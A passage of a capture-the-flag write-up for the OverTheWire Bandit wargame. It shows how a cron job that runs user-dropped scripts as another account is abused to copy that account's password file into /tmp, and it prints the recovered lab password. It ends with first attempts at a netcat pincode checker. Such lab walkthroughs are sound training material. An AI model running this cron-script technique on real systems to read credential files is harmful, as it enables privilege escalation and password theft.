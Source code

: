 So the cronjob exec all shell scripts in `/var/spool/bandit24/foo` and then deletes them as user `bandit24` hence we can get the password as follows

```bash
bandit23@bandit:/var/spool/bandit24/foo$ mkdir /tmp/pass09
bandit23@bandit:/var/spool/bandit24/foo$ touch /tmp/pass09/pass
bandit23@bandit:/var/spool/bandit24/foo$ chmod 777 /tmp/pass09
bandit23@bandit:/var/spool/bandit24/foo$ cd /tmp/pass09/
bandit23@bandit:/tmp/pass09$ touch pass.sh
bandit23@bandit:/tmp/pass09$ vim pass.sh
bandit23@bandit:/tmp/pass09$ chmod 777 pass.sh
bandit23@bandit:/tmp/pass09$ cp pass.sh /var/spool/bandit24/foo/
bandit23@bandit:/tmp/pass09$ cat pass
bandit23@bandit:/tmp/pass09$ cron
cron: can't open or create /var/run/crond.pid: Permission denied
bandit23@bandit:/tmp/pass09$ cat pass
bandit23@bandit:/tmp/pass09$ chmod 777 pass
bandit23@bandit:/tmp/pass09$ cron
cron: can't open or create /var/run/crond.pid: Permission denied
bandit23@bandit:/tmp/pass09$ cat pass
bandit23@bandit:/tmp/pass09$ cat pass
gb8KRRCsshuZXI0tUuR6ypOFjiZbf3G8
```

pass.sh
```bash
#!/bin/bash

cat /etc/bandit_pass/bandit24 > /tmp/pass09/pass
echo "executed!"
```

```bash
~$ ssh -p 2220 bandit.labs.overthewire.org -l bandit24
```

I used the password: gb8KRRCsshuZXI0tUuR6ypOFjiZbf3G8

## Level 24 -> Level 25

```bash
bandit24@bandit:~$ nc localhost 3002
bandit24@bandit:~$ nc localhost 30002
I am the pincode checker for user bandit25. Please enter the password for user bandit24 and the secret pincode on a single line, separated by a space.
gb8KRRCsshuZXI0tUuR6ypOFjiZbf3G8 0000
Wrong! Please enter the correct current password and pincode. Try again.
^C
bandit24@bandit:~$ echo "gb8KRRCsshuZXI0tUuR6ypOFjiZbf3G8 0000" | nc localhost 30002
I am the pincode checker for user bandit25. Please enter the password for user bandit24 and the secret pincode on a single line, separated by a space.
Wrong! Please enter the correct current password and pincode. Try again.
^C
```
